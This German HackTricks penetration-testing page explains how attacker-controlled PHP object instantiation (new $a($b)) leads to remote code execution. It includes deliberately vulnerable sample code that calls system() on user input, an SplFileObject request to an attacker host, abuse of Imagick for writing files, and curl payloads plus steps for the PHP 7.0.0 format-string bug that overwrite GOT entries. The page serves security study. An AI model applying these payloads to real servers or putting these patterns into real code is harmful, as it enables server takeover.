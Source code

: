 # PHP - RCE abusing object creation: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

Dies ist im Wesentlichen eine Zusammenfassung von [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Einführung

Das Erstellen neuer beliebiger Objekte, wie `new $_GET["a"]($_GET["a"])`, kann zu Remote Code Execution (RCE) führen, wie in einem [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) beschrieben. Dieses Dokument hebt verschiedene Strategien zur Erreichung von RCE hervor.

## RCE mittels Custom Classes oder Autoloading

Die Syntax `new $a($b)` wird verwendet, um ein Objekt zu instanziieren, wobei **`$a`** den Klassennamen darstellt und **`$b`** das erste an den Konstruktor übergebene Argument ist. Diese Variablen können aus Benutzereingaben wie GET/POST stammen, wo sie Strings oder Arrays sein können, oder aus JSON, wo sie als andere Typen auftreten können.

Betrachten Sie den folgenden Codeausschnitt:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In diesem Fall führt das Setzen von `$a` auf `App` oder `App2` und `$b` auf einen Systembefehl (z. B. `uname -a`) zur Ausführung dieses Befehls.

**Autoloading-Funktionen** können ausgenutzt werden, wenn solche Klassen nicht direkt zugänglich sind. Diese Funktionen laden Klassen automatisch aus Dateien, wenn sie benötigt werden, und werden mit `spl_autoload_register` oder `__autoload` definiert:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Das Verhalten des Autoloadings variiert je nach PHP-Version und bietet unterschiedliche RCE-Möglichkeiten.

## RCE über eingebaute Klassen

Fehlen eigene Klassen oder Autoloader, können **eingebaute PHP-Klassen** für RCE ausreichen. Die Anzahl dieser Klassen liegt je nach PHP-Version und installierten Erweiterungen zwischen etwa 100 und 200. Sie lassen sich mit `get_declared_classes()` auflisten.

Interessante Konstruktoren lassen sich über die Reflection-API identifizieren, wie im folgenden Beispiel und dem Link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) gezeigt.

**RCE durch spezifische Methoden umfasst:**

### **SSRF + Phar Deserialization**

Die `SplFileObject`-Klasse ermöglicht SSRF über ihren Konstruktor und erlaubt Verbindungen zu beliebigen URLs:
```php
new SplFileObject('http://attacker.com/');
```
SSRF kann in PHP-Versionen vor 8.0 mithilfe des Phar-Protokolls zu Deserialisierungsangriffen führen.

### **Ausnutzen von PDOs**

Der PDO-Klassenkonstruktor erlaubt Verbindungen zu Datenbanken über DSN-Strings und kann potenziell die Erstellung von Dateien oder andere Interaktionen ermöglichen:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Versionen von PHP bis einschließlich 5.3.22 und 5.4.12 waren anfällig für XXE-Angriffe über die `SoapClient`- und `SimpleXMLElement`-Konstruktoren, abhängig von der libxml2-Version.

## RCE über Imagick Extension

Bei der Analyse der **Projektabhängigkeiten** wurde festgestellt, dass **Imagick** durch das Instanziieren neuer Objekte für **command execution** nutzbar ist. Dies bietet die Möglichkeit, Schwachstellen auszunutzen.

### VID parser

Es wurde festgestellt, dass der VID-Parser Inhalte an beliebige Pfade im Dateisystem schreiben kann. Dies könnte zur Platzierung einer PHP-Shell in einem webzugänglichen Verzeichnis führen und damit Remote Code Execution (RCE) ermöglichen.

#### VID Parser + File Upload

Es ist zu beachten, dass PHP hochgeladene Dateien vorübergehend in `/tmp/phpXXXXXX` ablegt. Der VID-Parser in Imagick, der das **msl**-Protokoll nutzt, kann Wildcards in Dateipfaden verarbeiten und ermöglicht so das Kopieren der temporären Datei an einen gewählten Speicherort. Diese Methode bietet einen zusätzlichen Weg, beliebiges Schreiben von Dateien im Dateisystem zu erreichen.

### PHP Crash + Brute Force

Eine Methode, beschrieben im [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/), beinhaltet das Hochladen von Dateien, die einen Serverabsturz auslösen, bevor sie gelöscht werden. Durch Brute-Forcing des Namens der temporären Datei wird es möglich, dass Imagick beliebigen PHP-Code ausführt. Diese Technik erwies sich jedoch nur in einer veralteten Version von ImageMagick als wirksam.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

Wenn Benutzereingabe den Klassennamen steuert (z. B. `new $_GET['model']()`), führte PHP 7.0.0 während des `Throwable`-Refactors einen temporären Bug ein, bei dem die Engine den Klassennamen irrtümlich als printf-Formatstring bei der Auflösung behandelte. Das ermöglicht klassische printf-style primitives in PHP: leaks with `%p`, write-count control with width specifiers und arbitrary writes mit `%n` gegen in-process pointers (z. B. GOT-Einträge bei ELF-Builds).

Minimal reproduzierbares verwundbares Muster:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
Ausnutzungsablauf (aus der Referenz):
- Leak addresses via `%p` in the class name to find a writable target:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- Verwende positionsbasierte Parameter und width specifiers, um eine genaue Byte-Anzahl zu setzen, dann `%n`, um diesen Wert an eine auf dem Stack erreichbare Adresse zu schreiben. Zielt auf einen GOT-Slot (z. B. `free`), um ihn teilweise zu `system` zu überschreiben.
- Löse die hijackte Funktion aus, indem du einen Klassennamen übergibst, der eine Shell-Pipe enthält, um `system("id")` aufzurufen.

Hinweise:
- Funktioniert nur unter PHP 7.0.0 (Bug [#71105](https://bugs.php.net/bug.php?id=71105)); in späteren Releases behoben. Schweregrad: kritisch, falls beliebige Klasseninstanziierung existiert.
- Typische Payloads verketten viele `%p`, um den Stack zu durchlaufen, und verwenden dann `%.<width>d%<pos>$n`, um die partielle Überschreibung zu platzieren.

## Referenzen

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
